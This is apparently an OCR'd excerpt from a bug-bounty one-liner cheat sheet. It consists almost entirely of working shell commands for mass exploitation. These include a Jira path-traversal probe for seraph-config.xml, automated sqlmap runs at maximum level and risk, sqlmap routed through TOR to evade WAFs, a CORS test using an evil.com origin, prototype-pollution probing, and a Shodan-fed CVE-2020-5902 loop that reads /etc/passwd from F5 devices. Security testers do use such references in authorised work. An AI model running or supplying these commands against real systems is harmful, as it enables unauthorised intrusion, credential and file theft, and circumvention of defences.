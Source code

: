 ```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml" -mc 200

```

---

## **SQLi:**

```
cat subs.txt | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 5 --risk 3

```

***Bypass WAF using TOR***

```
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor

```

---

## **CORS:**

```
gau "http://target.com" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

```

---

## **Prototype Pollution:**

```
subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"

```

---

## **CVEs:**

### **CVE-2020-5902:**

```
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done

```

